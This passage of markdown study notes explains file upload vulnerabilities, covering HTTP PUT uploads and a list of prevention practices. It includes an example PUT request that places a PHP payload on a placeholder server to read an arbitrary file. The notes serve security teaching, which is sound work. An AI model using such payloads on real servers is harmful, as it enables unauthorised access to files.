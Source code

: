 ## Uploading files using PUT

- It's worth noting that some web servers may be configured to support PUT requests.
```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

- You can try sending `OPTIONS` requests to different endpoints to test for any that advertise support for the `PUT` method.

## How to prevent file upload vulnerabilities

- Allowing users to upload files is commonplace and doesn't have to be dangerous as long as you take the right precautions.

- In general, the most effective way to protect your own websites from these vulnerabilities is to implement all of the following practices:

	- Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. 

	- Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (../).

	- Rename uploaded files to avoid collisions that may cause existing files to be overwritten.

	- Do not upload files to the server's permanent filesystem until they have been fully validated.

	- As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.
